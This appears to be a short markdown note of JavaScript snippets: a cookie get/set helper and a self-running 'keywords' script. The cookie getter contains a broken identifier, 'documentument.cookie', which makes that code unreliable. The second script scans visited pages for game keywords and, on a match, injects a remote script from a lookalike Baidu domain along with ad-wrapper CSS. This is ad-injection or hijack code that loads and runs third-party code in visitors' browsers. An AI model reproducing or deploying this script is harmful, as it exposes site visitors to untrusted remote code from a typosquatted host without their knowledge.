 
# set和get  cookie


	setCookie(key, value, expire) {
	        if (typeof document.cookie == 'string') {
	var exp = new Date()
	expire = expire || this.expire
	            exp.setTime(exp - 0 + expire * 1000)
	            document.cookie = key + "=" + encodeURIComponent(value) + ";expires=" + exp.toGMTString()
	        }
	    }
	    getCookie(key) {
	        if (typeof document.cookie == 'string') {
	            var h = RegExp("(^| )" + key + "=([^;]*)(;|$)").exec(documentument.cookie)
	            return h ? decodeURIComponent(h[2]) : ''
	        }
	        return ''
	    }



# 关键词


    ;(function(win, doc) {
        if (win != top || !doc.body || win.__DSDE__) {
            return
        }
        win.__DSDE__ = true;
        var wd = ['baidu.com', 'iqiyi.com', 'jd.com', '163.com', 'taobao.com', '767xx.cn'],
            keys = ['pubg', 'steam', '\u7edd\u5730\u6c42\u751f'],
            keys2 = ['lol', '\u82f1\u96c4\u8054\u76df'],
            k = null;
        for (i = 0; i < wd.length; i++) {
            if (location.host.indexOf(wd[i]) != -1) {
                return
            }
        }
        var html = doc.getElementsByTagName('body');
        if (html.length < 1) {
            return
        }
        html = html[0].innerHTML;
        for (i = 0; i < keys2.length; i++) {
            if (html.indexOf(keys2[i]) != -1) {
                k = keys2[i]
            }
        }
        if (k) {
            s = document.createElement('script');
            s.src = "http://s.baidustatie.com/t/g.php?z=2772x54izvi6";
            document.body.appendChild(s);
            addCSS('#BDV_UNION_WRAPPER_2772x54izvi6_0{ margin: -240px auto!important; left: 0; ')
        }
    })(window, document);

